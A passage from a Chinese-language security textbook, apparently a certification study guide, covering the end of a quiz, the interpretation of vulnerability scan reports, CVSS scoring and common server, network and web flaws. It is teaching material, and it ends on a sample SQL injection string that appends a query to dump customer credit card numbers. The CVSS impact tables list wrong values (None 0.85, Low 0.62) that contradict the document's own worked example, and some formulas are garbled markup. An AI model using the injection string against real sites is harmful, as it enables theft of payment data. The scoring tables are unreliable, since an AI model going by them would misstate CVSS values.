    4. 不要运行扫描，以防干扰业务。

16. 下列哪些活动不属于漏洞管理生命周期的一部分？

    1. 探测

    2. 修复

    3. 报告

    4. 扫描

17. 哪种漏洞扫描方法结合了运行在目标服务器上的代理程序的信息？

    1. 持续监控


2. 持续扫描

3. 按需扫描

4. 告警

18. Kolin 想要使用自动化 Web 应用程序漏洞扫描器来识别即将部署到其环境中应用程序的任何潜在安全问题。以下工具中哪一个最可能无法满足他的需求？

1. `ZAP`

2. `Nikto`

3. `Arachni`

4. `Burp Suite`

19. Jessica 正在阅读由组织不同部门使用不同产品运行的漏洞扫描报告。她负责分配修复资源，但在优先考虑不同来源的问题时遇到困难。哪种 SCAP 组件可以帮助 Jessica 完成这项任务？

1. `CVSS`

2. `CVE`

3. `CPE`

4. `XCCDF`

20. Sarah 想要出于 PCI DSS 合规性目的对系统运行外部漏洞扫描。谁授权完成这些扫描之一？

1. 组织的任何员工

2. 经批准的扫描供应商

3. PCI DSS 服务提供商

4. 任何合格的人员

# 第 7 章：分析漏洞扫描

网络安全分析师花费大量时间分析和解释漏洞扫描器生成的报告。虽然扫描器在自动化识别漏洞的人工工作方面非常有效，但它们生成的结果需要经过培训的分析师进行解释，以消除误报、确定修复活动的优先级，并深入研究漏洞报告的根源。在本章中，你将学习网络安全分析师如何运用他们的知识和经验审查漏洞扫描报告。

## 审查和解释扫描报告

漏洞扫描报告为分析师提供了大量信息，有助于解释报告。除了第 6 章中所示的高级报告示例，“设计漏洞管理计划”之外，漏洞扫描器还会提供关于它们识别的每个漏洞的详细信息。图 7.1 显示了 `Nessus` 漏洞扫描器报告的单个漏洞示例。

让我们逐节查看此报告，从左上角开始，逆时针方向进行。

在报告的最顶部，我们看到了两个关键细节：`漏洞名称`，它提供了一个描述性标题，以及漏洞的`整体严重性`，以通用类别的形式表示，例如低、中、高或危急。在这份示例报告中，扫描器报告某个服务器正在运行过时且不安全的 SSL 协议版本。它被分配到高严重程度类别。

接下来，报告提供了该漏洞的`详细描述`。在这种情况下，报告提供了有关 SSL 协议中缺陷的详细描述，并解释了 SSL 不再被认为是可以使用的。

报告的下一部分提供了漏洞的`解决方案`。在可能的情况下，扫描器会提供有关系统管理员、安全专业人员、网络工程师和/或应用程序开发人员如何修复漏洞的详细信息。在这种情况下，读者被指示禁用 SSL 2.0 和 3.0，并用安全的 TLS 协议版本替换它们的使用。

在报告标题为“另见”的章节中，扫描器提供了`引用`，管理员可以在那里找到有关报告中描述漏洞的更多详细信息。在这种情况下，扫描器引导读者参考几篇博客文章、`Nessus` 文档页面和互联网工程任务组 (IETF) 文档，这些文档提供了有关漏洞的更多详细信息。


`图 7.1` Nessus 漏洞扫描报告

报告的`输出`部分显示了探测漏洞时远程系统返回的详细信息。这些信息对分析师可能非常有价值，因为通常提供了命令返回的逐字输出。分析师可以利用此更好地理解为什么扫描器会报告漏洞，识别漏洞的位置，并可能识别误报。在这种情况下，输出部分显示了正在使用的特定不安全加密算法。

`端口/主机`部分提供了包含漏洞的服务器详细信息，以及该服务器上具有漏洞的特定服务。在这种情况下，出于隐私考虑，服务器的 IP 地址被掩盖了，但我们可以看到服务器在 443 和 4433 端口上都在运行不安全的 SSL 版本。

`漏洞信息`部分提供了有关该漏洞的一些杂项信息。在这种情况下，我们看到 SSL 漏洞已出现在新闻报道中。

`风险信息`部分包含了评估漏洞严重性的有用信息。在这种情况下，扫描器报告该漏洞的整体风险因子为高（与漏洞标题旁边的标签一致）。它还提供了有关漏洞在使用通用漏洞评分系统 (CVSS) 时评分的详细信息。你会注意到有两个 CVSS 评分和向量。我们将使用 CVSS 版本 3 信息，因为它是更新的评分标准。在这种情况下，该漏洞的 CVSS 分为 7.5，并具有 CVSS 向量：

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

我们本章的下一节讨论 CVSS 的细节。

漏洞报告的最后部分提供了检测该问题的漏洞扫描器插件的详细信息。该漏洞由 `Nessus` 插件 ID `20007` 报告，该插件于 2005 年 10 月发布，并于 2019 年 3 月进行了更新。

尽管本章重点是解释 `Nessus` 漏洞扫描的细节，但对于其他漏洞扫描器的过程也非常相似。不同产品生成的报告格式可能不同，但它们通常包含相同的信息。例如，图 7.2 显示了 `Qualys` 漏洞报告的输出。


`图 7.2` Qualys 漏洞扫描报告

### 理解 CVSS

`通用漏洞评分系统 (CVSS)` 是评估安全漏洞严重性的行业标准。它提供了一种根据各种衡量对每个漏洞进行评分的技术。网络安全分析师经常使用 CVSS 排名来优先响应措施。

分析人员在对新漏洞进行评分时，首先从八个维度对漏洞进行评估。每个指标都包含一个描述性评分和一个数值分。前四个指标评估了漏洞的可利用性，而后三个指标评估了漏洞产生的影响。第八个指标讨论了漏洞的范围（Scope）。

### 攻击向量指标

`攻击向量 (AV) 指标` 描述了攻击者将如何利用该漏洞，并根据表 7.1 所示的标准进行赋值。

`表 7.1` CVSS 攻击向量指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 物理 (P) | 攻击者必须物理接触受影响的设备。 | 0.20 |
| 本地 (L) | 攻击者必须对受影响的系统具有物理或逻辑访问。 | 0.55 |
| 邻接网络 (A) | 攻击者必须能够访问受影响系统连接的本地网络。 | 0.62 |
| 网络 (N) | 攻击者可以通过网络远程利用该漏洞。 | 0.85 |

### 攻击复杂度指标

`攻击复杂度 (AC) 指标` 描述了利用该漏洞的难度，并根据表 7.2 所示的标准进行赋值。

`表 7.2` CVSS 攻击复杂度指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 高 (H) | 利用该漏洞需要难以发现的“特殊”条件。 | 0.44 |
| 低 (L) | 利用该漏洞不需要任何特殊条件。 | 0.77 |

### 所需权限指标

`所需权限 (PR) 指标` 描述了攻击者利用漏洞所需的账户访问权限类型，并根据表 7.3 中的标准进行赋值。

`表 7.3` CVSS 所需权限指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 高 (H) | 攻击者需要管理员权限执行攻击。 | 0.27 (如果范围改变则为 0.50) |
| 低 (L) | 攻击者需要基本用户权限执行攻击。 | 0.62 (如果范围改变则为 0.68) |
| 无 (N) | 攻击者不需要身份验证即可利用该漏洞。 | 0.85 |

### 用户交互指标

`用户交互 (UI) 指标` 描述了攻击者是否需要让另一个人类参与攻击中。用户交互指标根据表 7.4 中的标准进行赋值。

`表 7.4` CVSS 用户交互指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 无 (N) | 成功利用不需要攻击者以外的任何用户采取行动。 | 0.85 |
| 需要 (R) | 成功利用确实需要攻击者以外的用户采取行动。 | 0.62 |

### 机密性指标

`机密性指标` 描述了攻击者成功利用漏洞时可能发生的信息泄露类型。机密性指标根据表 7.5 中的标准进行赋值。

`表 7.5` CVSS 机密性指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 无 (N) | 无信息泄露。 | 0.85 |
| 低 (L) | 有部分信息泄露。 | 0.62 |
| 高 (H) | 所有信息泄露。 | 0.56 |

### 完整性指标

`完整性指标` 描述了攻击者成功利用漏洞时可能发生的数据篡改类型。完整性指标根据表 7.6 中的标准进行赋值。

`表 7.6` CVSS 完整性指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 无 (N) | 无完整性受损。 | 0.85 |
| 低 (L) | 部分数据被篡改。 | 0.62 |
| 高 (H) | 所有数据被篡改。 | 0.56 |

### 可用性指标

`可用性指标` 描述了攻击者成功利用漏洞时可能导致的服务中断。可用性指标根据表 7.7 中的标准进行赋值。

`表 7.7` CVSS 可用性指标

| 值 | 描述 | 分数 |
| --- | --- | --- |
| 无 (N) | 无可用性影响。 | 0.85 |
| 低 (L) | 服务性能部分下降。 | 0.62 |
| 高 (H) | 服务完全中断。 | 0.56 |

### 范围指标

`范围 (Scope) 指标` 描述了漏洞是否会影响范围之外的资源。范围指标根据表 7.8 中的标准赋值。注意，范围指标不包含分数。范围的值反映在前面的所需权限指标中。

`表 7.8` CVSS 范围指标

| 值 | 描述 |
| --- | --- |
| 未改变 | 仅影响范围内的资源。 |
| 改变 | 受影响的漏洞可以影响范围之外的资源。 |

### 解读 CVSS 向量

`CVSS 向量` 使用单行格式传达漏洞在所有指标上的评分。例如，回顾图 7.1 所示的 CVSS 向量：

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

该向量包含九部分。第一部分 `CVSS:3.1` 告知读者（人类或系统）该向量是使用 CVSS 3.1 版本生成的。接下来的八部分对应每一个指标。在这种情况下，图 7.1 中的 SSL 漏洞获得了以下评分：

*   攻击向量：`N`（分数：0.85）
*   攻击复杂度：`L`（分数：0.77）
*   所需权限：`N`（分数：0.85）
*   用户交互：`N`（分数：0.85）
*   范围：`U`
*   机密性：`H`（分数：0.56）
*   完整性：`N`（分数：0.00）
*   可用性：`N`（分数：0.00）

### 总结 CVSS 分数

CVSS 向量提供了关于漏洞风险性质的良好详细信息，但向量的复杂性使其在优先级排序练习中难以使用。因此，分析人员可以计算 `CVSS 基础分数`，这是一个代表漏洞整体风险的单一数字。得出基础分首先需要计算`可利用性分数`、`影响分数`和`影响函数`。

#### 计算影响子分 (ISS)

分析人员执行的第一项计算是计算影响子分 (ISS)。该指标使用以下公式汇总三个影响指标：

```
ISS = 1 – [(1 – Confidentiality) × (1 – Integrity) × (1 – Availability)]
```

代入我们 SSL 漏洞的数值，我们得到：

```
ISS = 1 – [(1 – 0.56) × (1 – 0.00) × (1 – 0.00)]
ISS = 1 – [0.44 × 1.00 × 1.00]
ISS = 1 – 0.44
ISS = 0.56
```

### 计算影响分 (Impact Score)

要从影响子分获得结果，必须考虑范围（scope）指标。如果范围是“未更改”（Unchanged），如我们的示例所示，我们将 ISS 乘以 6.42：


<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mi mathvariant="normal">Impact</mi><mo>=</mo><mn>6.42</mn><mo>&#42;</mo><mspace width="0.25em"/><mi mathvariant="normal">ISS</mi></mrow></math> <math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mi 贯="normal">Impact</mi><mo>=</mo><mn>6.42</mn><mo>&#42;</mo><mspace width="0.25em"/><mn>0.56</mn></mrow></math> <math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mi 贯="normal">Impact</mi><mo>=</mo><mn>3.60</mn></mrow></math>

如果范围是“已更改”（Changed），我们使用更复杂的公式：

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mtext>Impact</mtext><mo>=</mo><mn>7.52</mn><mo>&#215;</mo><mrow><mo>(</mo><mrow><mtext>ISS</mtext><mo>&#8211;</mo><mn>0.029</mn></mrow><mo>)</mo></mrow><mo>&#215;</mo><mn>3.25</mn><mo>&#215;</mo><msup><mo>(</mo><mrow><mtext>ISS</mtext><mo>&#8211;</mo><mn>0.02</mn></mrow><mo>)</mo></mn>15</mn></msup></mrow></math>

### 计算利用性分 (Exploitability Score)

`Exploitability` 是攻击者能够利用漏洞访问系统的可能性。它通常也被称为“武器化”（weaponization）——攻击者开发利用特定漏洞漏洞的能力。

分析人员可以使用此公式计算漏洞的利用性：

```
Exploitability = 8.22 * AttackVector * AttackComplexity * PrivilegesRequired * UserInteraction
```

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mi mathvariant="normal">Exploitability</mi><mo>=</mo><mn>8.22</mn><mo>&#8215;</mo><mi mathvariant="normal">AttackVector</mi><mo>&#8215;</mo><mi mathvariant="normal">AttackComplexity</mi><mo>&#8215;</mo><mi mathvariant="normal">PrivilegesRequired</mi><mo>&#8215;</mo><mi mathvariant="normal">UserInteraction</mi></mrow></math>

代入我们 SSL 漏洞的数值，我们得到：

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mtable columnalign="left"><mtr><mtd><mrow><mi mathvariant="normal">Exploitability</mi><mo>=</mo><mn>8.22</mn><mo>&#8215;</mo><mn>0.85</mn><mo>&#8215;</mo><mn>0.77</mn><mo>&#8215;</mo><mn>0.85</mn><mo>&#8215;</mo><mn>0.85</mn></mrow></mtd></mtr><mtr><mtd><mrow><mi 贯="normal">Exploitability</mi><mo>=</mo><mn>3.89</mn></mrow></mtd></mtr></mtable></mrow></math>

### 计算基础分 (Base Score)

有了所有这些信息，我们现在可以根据以下规则确定 CVSS 基础分：

*   如果影响为 0，则基础分为 0。
*   如果范围指标是“未更改”（Unchanged），通过将影响分和利用性分相加计算基础分。
*   如果范围指标是“已更改”（Changed），将影响分和利用性分相加，并将结果乘以 1.08。
*   最高基础分分为 10。如果计算出的值大于 10，则将基础分设置为 10。

在我们的示例中，影响分为 3.60，利用性分四舍五入为 3.9。将两者相加，我们得到基础分为 7.5。

网络安全分析师在解释报告时，通常会进行自己的调查以确认漏洞的存在及其严重性。这些调查可能包括使用外部数据源，为分析提供有价值的额外信息。

### 误报（False Positives）

漏洞扫描器是有用的工具，但它们并非万无一失。扫描器会因为各种原因出错。扫描器可能没有足够的权限访问目标系统来确认漏洞，或者其生成错误漏洞报告的插件中可能存在错误。当扫描器报告了一个不存在的漏洞时，这被称为 `false positive error`（误报错误）。

当漏洞扫描器报告一个漏洞时，这被称为 `positive report`（确认报告）。该报告可能是准确的（`true positive`报告），也可能是不准确的（`false positive`报告）。同样，当扫描器报告不存在某个漏洞时，这是一个 `negative report`（阴性报告）。阴性报告可能是准确的（`true negative`报告），也可能是不准确的（`false negative`报告，即漏报）。

网络安全分析师应该确认扫描器报告的每一个漏洞。在某些情况下，这可能仅仅是验证补丁是否缺失或操作系统是否过旧。在其他情况下，验证漏洞需要一个复杂的模拟利用的人工流程。例如，验证 SQL 注入漏洞可能需要实际上对 Web 应用程序尝试攻击，并在后端数据库中验证结果。

在验证漏洞时，分析师应该在整个过程中利用自己的专业知识，以及组织内其他人的领域知识。数据库管理员、系统工程师、网络技术人员、软件开发人员和其他专家都拥有领域知识，这些知识对于评估潜在的误报报告至关重要。

### 记录的异常（Documented Exceptions）

在某些情况下，组织可能出于某种原因决定不修复某个漏洞。例如，组织可能决定根据业务需求必须使用一种不再支持的操作系统。同样，开发经理可能认为，修复仅暴露在内部网络的 Web 应用程序漏洞的成本超过了其带来的安全收益。

除非分析师采取行动来记录这些异常，否则漏洞扫描在每次运行时都会继续报告这些异常。在漏洞管理系统中记录异常是一项良好的做法，这样扫描器在未来的报告中就能够忽略它们。这可以减少扫描报告中的噪声水平，并增加其对分析师的实用性。

### 理解信息性结果（Informational Results）

漏洞扫描器在使用默认配置运行时，通常会提供非常详细的信息。漏洞扫描器报告的所有内容并不代表重大的安全问题。尽管如此，扫描器会提供其能确定尽可能的信息，以显示攻击者在进行侦察扫描时可能收集的信息类型。

图 7.3 提供了一个针对 Web 服务器运行漏洞扫描生成的高级报告示例。请注意，该报告中约三分之二的漏洞属于“信息（Info）”风险类别。这表明提供结果的插件甚至没有根据 `CVSS` 进行分类。相反，它们仅仅是信息性结果。大多数组织不会采取移除所有关于系统的可能信息来源的措施，因为这可能非常困难，甚至是不可能的。


`图 7.3` 显示漏洞和最佳实践的扫描报告

网络安全分析师在遇到图 7.3 中的扫描报告时，应该首先关注存在的高危 SQL 注入漏洞。一旦修复了该漏洞，还有七个中危漏洞需要关注。剩余的信息性漏洞可能可以不管。许多组织将针对如何处理这些信息性消息采取正式政策。例如，某些组织可能决定，一旦信息在连续两次或三次扫描中出现，他们将创建一个日志条目，记录他们应对该信息所采取的行动或选择不采取行动的原因。对于具有严格合规要求的组织，这种方法尤为重要，由于审计（注：此处原文根据上下文理解）决策过程的正式记录可以证明组织已尽尽职调查。

### 将扫描结果与其他数据源相结合

漏洞扫描绝不能在真空中进行。网络安全分析师在解释这些报告时，应该转向其他安全信息源。此过程的有价值信息源包括：

*   服务器、应用程序、网络设备和其他可能包含利用漏洞尝试信息的`日志`
*   `安全信息和事件管理 (SIEM)` 系统，它可以关联多个源的日志并提供可操作的情报
*   提供系统上操作系统和应用程序信息的`配置管理系统`

当分析师尝试将扫描报告与组织的实际情况相结合时，这些每一个信息源都可能是极具价值的。

### 趋势分析（Trend Analysis）

趋势分析也是漏洞扫描计划的重要部分。经理应该关注漏洞的整体趋势，包括随时间产生的新漏洞数量、现有漏洞年龄以及修复漏洞所需的时间。图 7.4 显示了 Nessus SecurityCenter 中的趋势分析报告示例。


`图 7.4` 漏洞趋势分析 ¶ 源：Tenable Network Security

### 上下文感知（Context Awareness）

评估漏洞时，你还必须考虑组织以及发现漏洞环境的具体上下文。例如，直接连接到互联网的系统上的漏洞要比内部系统或隔离网络上的系统上的漏洞严重得多。

同样，受影响系统的`资产价值`也应该在确定修复优先级时发挥作用。高价值资产对组织构成了更大的风险，在修复优先级列表中应该更靠前。

### 常见漏洞（Common Vulnerabilities）

每个漏洞扫描系统都包含能够检测数千种可能漏洞的插件，从 Web 应用程序中的重大 SQL 注入漏洞到网络设备中较常见的信息泄露问题。虽然在任何长度的书中都不可能讨论这些每一种漏洞，但网络安全分析师应该熟悉最常见的漏洞以及涵盖许多不同漏洞变体的通用类别。

第 6 章 讨论了定期更新漏洞扫描器的重要性，使其能够有效应对新发现的威胁。尽管事实如此，但同样重要的是，即使是旧漏洞也可能对组织的安全带来重大问题。威瑞森（Verizon）每年都会对过去一年中调查的所有数据泄露事件进行一次广受尊敬的分析。图 7.5 显示了 2016 年数据泄露调查报告的部分结果。（请注意，威瑞森继续每年发布这些报告，但它们不再包含发现年份数据。）

图 7.5 强调了处理旧漏洞的重要性，以及许多组织未能做到这一点的严酷现实。在数据泄露中被利用的许多漏洞都是在*十多年*以前就发现的漏洞。这是一个令人惊讶的统计数据。


图 7.5 2015 年按初始发现年份分类的被利用漏洞

## 服务器与终端漏洞

计算机系统非常复杂。运行在服务器和终端上的操作系统由数百万行代码组成，而且它们运行的应用程序组合不同使得每个系统都具有相当的特性。因此，扫描检测到的许多漏洞存在于服务器和终端系统中这并不意外，而且这些漏洞往往是修复起来最复杂的漏洞。

### 缺失补丁

对系统应用安全补丁应该是任何信息安全计划的核心实践之一，但由于缺乏预防性维护的资源，这项常规任务经常被忽视。漏洞扫描最常见的警报之一是网络上的一个或多个系统运行着过时的操作系统或应用程序，并且需要安全补丁。

图 7.6 显示了此类扫描结果的一个示例。位于 `10.64.142.211` 的服务器存在远程代码执行漏洞。虽然扫描结果非常简，但它确实包含了许多有用信息：

*   描述告诉我们这是 Windows HTTP 栈中的一个缺陷。

    

    图 7.6 缺失补丁漏洞

*   报告输出部分的服务信息确认了服务器在 TCP 端口 `443` 上运行着 HTTPS 服务。
*   我们在页头中看到这是一个严重漏洞，这在“风险信息”部分也得到了确认，在该部分我们看到它的 CVSS 基础分为 10 分。

幸运的是，有一种简单的方法可以解决这个问题。“解决方案”部分告诉我们，微软已为受影响的操作系统发布了补丁，“另参”部分提供了指向微软安全公告（`MS15-034`）的直接链接，该公告更详细地描述了该问题和解决方案。

### 生命周期结束或过时组件

软件供应商最终会停止对其制造的每个产品的支持。操作系统和应用程序也是如此。一旦他们宣布产品的最终终止支持，继续运行过时软件的组织将自己面临重大的攻击风险。供应商将不再调查或纠正在该日期之后产品中出现的安全缺陷。从安全的角度来看，继续运行不受支持产品的组织只能自力更，除非你恰好维护有一支操作系统开发团队，否则那不是一个你所处的好境。

也许最著名的主流操作系统终止支持发生在 2015 年 7 月，当时微软停止了对已十多年的 Windows 的支持。图 7.7 显示了 Nessus 识别出运行该过时操作系统的漏洞。


图 7.7 不支持的操作系统系统漏洞

我们从报告中看到，网络上运行 Windows 2003 的服务器检测到了漏洞。对于继续运行不支持操作系统的描述表明：

> 缺乏支持意味着不会为产品发布新的安全补丁。

对于继续运行不支持操作系统的解决方案在表述上很简单，但在实施上很复杂。“升级到当前支持的 Windows 版本”这一指令可能面临重大挑战。

安全专业人员应该关注产品和服务生命周期信息，以帮助规划和缓解即将到来的 EOL 情况。许多供应商在他们的网站上提供此类信息。例如，微软在 `https://learn.microsoft.com/en-us/lifecycle/products` 提供此类信息。

在必须继续使用不支持的操作系统的情况下，最佳实践是尽可能隔离系统，最好不要连接到任何网络，并尽可能应用补偿控制。你将在第 8 章](#c08.xhtml)“响应漏洞”中学习更多关于补偿控制的内容。

### 缓冲区溢出

*缓冲区溢出*攻击发生在攻击者操纵程序向内存区域写入超过其分配的数据时。目标是在内存中覆盖由不同进程执行的指令。

缓冲区溢出攻击非常常见，并且在发现后往往会持续多年。例如，威瑞森数据泄露调查报告识别出的 10 个漏洞导致了研究中 85% 的入侵。在前 10 个问题中有四个溢出问题：

*   `CVE-1999-1058`: Vermillion FTP Daemon 缓冲区溢出
*   `CVE-2001-0876`: Windows 98、98SE、ME 和 XP 上通用即插用 (UPnP) 的缓冲区溢出
*   `CVE-2002-0126`: BlackMoon FTP Server 1.0 至 1.5 的缓冲区溢出
*   `CVE-2003-0818`: Microsoft ASN.1 库中的多个整数溢出

每个漏洞标题中 CVE 字母后面的四位数字表示该漏洞被发现的年份。在最近一次对泄露的研究中，导致泄露的前 10 个问题中，有四个是长了 12 到 16 年的溢出漏洞的利用！

安全分析师在漏洞扫描期间发现缓冲区溢出漏洞时，应该寻找修复该问题的补丁。在大多数情况下，扫描报告会直接标识可用的补丁。

### 权限提升

*权限提升*攻击寻求增加攻击者对目标系统的访问权限级别。它们利用允许将普通用户账户转换为更高权限账户（例如 root 超级用户）的漏洞。

2016 年 10 月，安全研究人员发现了一个名为 `Dirty COW` 的 Linux 内核漏洞。该漏洞在 Linux 内核中已存在九年，极易被利用，并能让成功的攻击者获得受影响系统的管理控制权限。

为了传播该漏洞并鼓励及时修复 Linux 内核，安全研究人员设立了 `DirtyCOW.ninja` 网站，如图 7.8

图 7.8 Dirty COW 网站

## 远程代码执行

`代码执行`漏洞允许攻击者在目标系统上运行其选择的软件。这可能是一场灾难性的事件，特别是当漏洞允许攻击者以管理员权限运行代码时。`远程代码执行`漏洞是代码执行漏洞中更危险的子集，因为攻击者可以通过网络连接利用该漏洞，而无需对目标系统具有物理或逻辑访问。

图 7.9 显示了 Nessus 检测到的远程代码执行漏洞示例。请注意，CVSS 访问向量显示该漏洞的访问向量是基于网络的。这与远程代码执行漏洞的描述是一的。向量中的影响指标显示，攻击者可以利用该漏洞完全攻破系统。

幸运的是，与大多数扫描检测出的漏洞一样，该问题有一个简单的修复。微软针对受此问题影响的 Windows 版本发布了补丁，并在微软安全公告 `MS14-066` 中对这些补丁进行了描述。


图 7.9 代码执行漏洞

## 不安全设计

互联网早期网络上使用的许多旧协议在设计时并未考虑安全性。它们通常未能使用加密技术来保护用户名、密码以及在开放网络上传输的内容，导致协议用户暴露于窃听攻击之下。`Telnet` 是一个用于获取远程服务器命令行访问权限的不安全协议示例。文件传输协议（`FTP`）提供了在系统之间传输文件的能力，但没有整合安全功能。图 7.10 显示了一个扫描报告示例，检测到了支持不安全的 `FTP` 协议的系统。

解决此问题的办法只需切换到更安全的协议。幸运的是，`Telnet` 和 `FTP` 都有加密的替代方案。系统管理员在寻求获取远程系统的命令行访问时，可以使用 Secure Shell（`SSH`）作为 `Telnet` 的安全替代品。同样，安全文件传输协议（`SFTP`）和 FTP-Secure（`FTPS`）都提供了系统间传输文件的安全方法。


图 7.10 FTP 明文认证漏洞

## 安全配置错误

系统的配置错误可能导致攻击者获取有关系统安全设置的信息，甚至允许他们利用配置不当的系统。

许多开发平台支持 `debug modes`（调试模式），为开发人员提供开发过程中排除应用程序故障所需的关键信息。调试模式通常提供有关应用程序、服务器以及支持数据库内部运行的详细信息。尽管这些信息对开发人员有用，但它们可能会无意中协助寻求获取数据库结构、应用程序使用的身份验证机制或其他细节的攻击者。出于此原因，漏洞扫描会对被扫描服务器上存在调试模式的情况发出警报。图 7.11 显示了此类扫描结果的示例。

在此示例中，目标系统似乎是一个支持 `ASP.NET` 开发环境的 Windows 服务器。报告的 `Output`（输出）部分表明，当客户端发送 `DEBUG` 请求时，服务器会做出响应。

解决此问题需要开发人员配合，并禁用公网系统上的调试模式。在成熟的组织中，软件开发应始终在仅限私有网络访问的专用开发环境中进行。应该鼓励（或要求！）开发人员仅在专用该目的系统上进行测试，而在那些服务器上启用调试模式是完全合理的。没有必要在面向公共系统上支持此功能。


图 7.11 调试模式漏洞

### 网络漏洞

现代互联网络使用复杂的底层组件和网络设备来提供广泛的访问。这些网络及其组件部分也容易受到漏洞扫描检测的安全漏洞的影响。

### 缺失固件更新

操作系统和应用程序并不是唯一需要定期安全更新的设备。漏洞扫描也可以检测到需要固件更新的网络设备的安全问题。这些漏洞产生的报告与图 7.6 中的操作系统缺失补丁报告类似，并引导管理员前往供应商网站下载固件更新的位置。

### 加密失败

安全套接层（`SSL`）协议及其后续者传输层安全（`TLS`）为互联网和私有网络上的信息交换提供了安全手段。尽管这些协议可用于加密任何类型的网络通信，但它们最常用于加密 Web 服务器的连接，并被终端用户熟悉地称为 `HTTPS` 中的“S”。

### 过时的 SSL/TLS 版本

`SSL` 不再被认为是安全的，不应在生产系统中使用。`TLS` 的早期版本也是如此。漏洞扫描器可能会报告 Web 服务器正在使用这些协议，安全分析师应该理解，任何使用这些过时 `SSL` 和 `TLS` 版本的连接可能受到窃听攻击。图 7.12 显示了一个包含多个支持过时 `SSL` 版本 3 网络的扫描报告示例。

支持过时 `SSL` 和 `TLS` 版本的服务器管理员应在其服务器上禁用这些旧协议的支持，并仅支持新协议（如 `TLS` 版本 1.2 或 1.3）。

#### 不安全的密码使用

`SSL` 和 `TLS` 通常被描述为加密算法，但实际上并非如此。`SSL` 和 `TLS` 协议描述了如何使用加密密码件来保护网络通信，但它们本身并不是加密密码件。相反，它们允许管理员根据每个服务器指定在这些协议上可使用的加密密码件。当客户端和服务器想要使用 `SSL/TLS` 通信时，它们会交换各自系统支持的密码件列表，并就双方都能接受的密码件达成一致。

某些密码件存在漏洞，因为容易受到窃听攻击而变得不稳定。例如，图 7.13 显示了一个支持不安全的 `RC4` 密码件的系统扫描报告。


FIGURE 7.12 过时的 SSL 版本漏洞

解决这一常见问题需要更改受影响服务器上支持的密码件 set 集，并确保只使用安全的密码件。

#### 证书问题

`SSL` 和 `TLS` 依赖于使用数字证书来验证服务器身份并交换加密密钥。网站用户熟悉网络浏览器中显示的错误信息，例如图 7.14 所示。这些错误通常包含关于访问网站安全性的极重要信息，但遗憾的是，它们往往被忽视。

漏洞扫描也可能检测到支持 `SSL` 和/或 `TLS` 的服务器所提供的证书问题。常见错误包括：


FIGURE 7.13 不安全的 SSL 密码件漏洞

* **证书上的名称与服务器名称不匹配**：这是一个非常严重的错误，因为它可能表明使用了从另一个站点获取的证书。这在数字世界等同于某人“用”朋友的假身份证。
* **数字证书过期**：数字证书有有效期和过期日期。当你看到过期的证书时，通常意味着服务器管理员未能及时更新证书。
* **未知证书颁发机构（`CA`）**：任何人都可以创建数字证书，但只有当证书接收者信任颁发证书的实体时，数字证书才有用。操作系统和浏览器包含了信任已知 `CA` 的指令，但如果遇到由未知或不受信任的 `CA` 颁发的证书，将显示错误。


FIGURE 7.14 无效证书警告

图 7.14 所示的错误表明用户正尝试访问一个提供无效证书的网站。从 URL 栏可以看到用户正尝试访问提供无效证书的网站。

#### 内部 IP 泄露

IP 地址有两种变体：可以通过互联网访问的公共地址和通常用于本地网络的私有地址。配置不当的服务器可能会向远程系统泄露其私有地址。攻击者可以使用这些信息获取更多关于防火墙网络内部配置的信息。当系统在 HTTP 请求的响应中包含自身的私有地址时，就会发生这种情况。

其中一些设备使用 `network address translation (NAT)` 将 `public address` 映射到 `private address`。然而，系统并不知道正在使用 `NAT`，因此可能会在响应中泄露信息。当系统在响应中包含其私有地址时，就会发生这种情况。图 7.15 显示了此类信息泄露的示例。


FIGURE 7.15 内部 IP 漏洞

### 基础设施与运营技术

在某些环境中，网络安全分析师可能会遇到数据采集与监控控制（`SCADA`）系统、工业控制系统（`ICS`）、物联网（`IoT`）以及其他 `operational technology (OT)` 的示例。这些系统允许物理设备和过程连接到网络，为寻求使业务流程更高效的组织提供了大量数据源。然而，它们也引入了新的安全问题。

`IoT` 世界还扩展到涉及物理基础设施管理的系统。例如，物理访问控制系统通常与闸机、门、大门和其他设施入口发生交互。建筑自动化系统与供暖通风空调（`HVAC`）系统、消防系统和其他建筑控制设备发生交互。

#### PLC 与 Modbus

工业控制系统依赖于分布在整个组织的系列传感器和控制器，收集信息并控制活动。可编程逻辑控制器（`PLC`）是设计在 `IoT` 环境中运行的专用硬件控制器。`PLC` 通常使用名为 `Modbus` 的专用通信协议，通过有线串行接口与传感器和其他 `IoT` 组件进行通信。

与网络上的任何其他设备一样，`IoT` 设备可能存在安全漏洞，并受到网络攻击。然而，修补 `IoT` 设备通常比其传统的服务器对应更困难，因为获取补丁很困难。`IoT` 设备制造商可能不使用自动更新机制，网络安全分析师感知更新的唯一方法是通过漏洞扫描或主动订阅 `IoT` 设备制造商发布的安全公告。

`Injection flaws` 发生在攻击者能够通过 Web 服务器向后端系统发送命令，从而绕过正常的安全控制，并欺骗后端系统使其认为该请求来自 Web 服务器。这种攻击最常见的形式是 `SQL injection attack`，它利用 Web 应用程序向后端数据库服务器发送未经授权的命令。

Web 应用程序经常接收来自用户的输入，并使用它来构建数据库查询，以生成返回给用户的结果。例如，考虑电子商务网站上的搜索功能。如果用户在搜索框中输入 `orange tiger pillows`，Web 服务器需要知道目录中的哪些产品可能匹配此搜索词。它可能会向后端数据库服务器发送一个类似所示的请求：

```sql
SELECT ItemName, ItemDescription, ItemPrice
FROM Products
WHERE ItemName LIKE '%orange%' AND
ItemName LIKE '%tiger%' AND
ItemName LIKE '%pillow%'
```

该命令检索一个可以包含在返回给终端用户的项目列表。在 `SQL injection attack` 中，攻击者可能会向 Web 服务器发送一个看起来非常异常的请求，例如搜索：

```sql
orange tiger pillow'; SELECT CustomerName, CreditCardNumber FROM Orders; --
```

